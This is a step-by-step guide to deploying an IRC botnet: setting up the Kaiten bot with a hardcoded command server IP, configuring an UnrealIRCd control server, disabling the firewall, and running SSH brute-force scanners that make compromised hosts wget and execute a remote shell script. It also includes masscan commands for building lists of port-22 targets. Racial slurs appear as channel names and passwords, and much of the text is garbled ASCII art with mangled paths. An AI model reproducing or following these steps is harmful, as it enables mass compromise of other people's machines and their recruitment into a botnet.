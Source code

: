
# ___     __________  ____ _______      _____ _______________.___.  ___     
#  _ _ ______   _               _  ______   __       _ _ 
#  ___        _              _         _        ___ 
#                                             ____             
#           ______   _________  ______  _____   ______          
#                                                                  

NOTE THE VPS MUST BE RUNNING CENTOS 6x x64bit
RUN THESES FIRST OR IT WILL NOT WORK

#
#  ___     .______________________    ___     
#  _ _    ______   _   ___    _ _ 
#  ___           _         ___ 
#                         ____          
#          ________  ______            
#                                         
#					  
					  
##################################
###########DEPENDENCIES###########
##################################

yum install perl
yum install gcc
yum install gcc-c++
yum intsall httpd
yum install tftp
yum install cpan
yum install nano
yum install unzip
yum install tar

##################################
########### SETTING UP ###########
########### THE KAITEN ###########
##################################

cd varwwwhtml
upload NSA-edit.sh
upload g.c (kaiten.c)
edit g.c
find this line  #define CHAN #Niggers
replace #Niggers with the prefered channel name
find this line  #define KEY nigg@s
replace nigg@s with the prefered channel key
find this  char servers[] = {
				23.89.158.69,
				(void)0
				};


##################################
########### SETTING UP ###########
########### THE UNREAL ###########
##################################

upload Unreal3.2.10.6.tar
tar -xf Unreal3.2.10.6.tar
cd Unreal3.2.10.6
upload the unrealircd.conf i gave you
edit the unrealircd.conf
find this line  listen 443;
change 443 to 6667
change the oper lines in the config file--these lines
											oper Christian
											password Christian#!;
											oper  {
											password DICKS;
											oper Tragedy {
											password nigg@s123;

save the changes to unrealircd.conf
run this command  .Config
after that finishes run this command  make
then type  .unreal start
if succesful should say this 

 _   _                      _ ___________  _____     _
                        _   _ ___   __     
   _ __  _ __ ___  __ _     _     __ 
    '_  '__ _  _`                _` 
 _        __ (_  _ _    __ (_ 
 ____ __  _____,______ _ ______,_
                           v3.2.10.6
                     using TRE 0.8.0 (BSD)

 Loading IRCd configuration ..
[warning] unrealircd.conf61 listen with SSL flag enabled on a non SSL compile
 Configuration loaded without any problems ..
 Dynamic configuration initialized .. booting IRCd.
---------------------------------------------------------------------


then run this command  service iptables stop
then this  service httpd restart

#  ___       __________________     _____    _______    _______  _____________________   ___     
#  _ _     ______   ___      _                     _   ___________     _ _ 
#  ___  _____             _                       __)_         _  ___ 
#                        ____                                                  
#          _______   ______  ______  ______  ______  _______   _____            
#                                                                           
#

##################################
###########AUTOMATICALY###########
##SETTING UP SCANNING DEPENDCIES##
##################################

cd root
upload Scanner.sh
type this command
sh Scanner.sh

##################################
#############MANUALLLY############
#######SETTING UP DEPENDCIES######
##################################

yum install gcc php-devel php-pear libssh2 libssh2-devel

pecl install -f ssh2 
enter 

touch etcphp.dssh2.ini

echo extension=ssh2.so  etcphp.dssh2.ini
yum install cpan -y
cpan force install NetSSH2
cpan force install ParallelForkManager

##################################
######SETTING UP THE SCANNER######
##################################

cd root
mkdir bin
upload LRAB
unzip LRAB.zip
nano join.pl
look for wget line should look like this		$channel-exec('cd tmp ; wget http153.92.127.63gtop.sh ; chmod +x gtop.sh ; sh gtop.sh ; rm gtop.sh');
change the ip with your server ip
save it
now execute to exucute the lists
they are exucuted like this
perl join.pl filename.txt

#
#  ___        _____      _____   ____  __.___ _______    ________  .____    .___  _____________________________  ___     
#  _ _              _        _             _____               _______    ___   _____  _ _ 
#  ___           _                       ___            _____           _____     ___ 
#              Y                                 _       ___                                     
#          ______  ______  ______ _________  ______   _______ __________    ____ _______            
#                                                                                                        
#

##################################
#########MAKING NEW LISTS#########
##################################
you use mass scan to create new lists
NOTE YOU MUST HAVE A KVM SERVER FOR MASSCAN TO WORK


.masscan 173.0.63.1968 -p22 --rate 10000 -oG ips.txt
grep -oP '(=Host )S' ips.txt  mfu.txt

.update 1000

Wait for that to finish

perl w.pl vulns.txt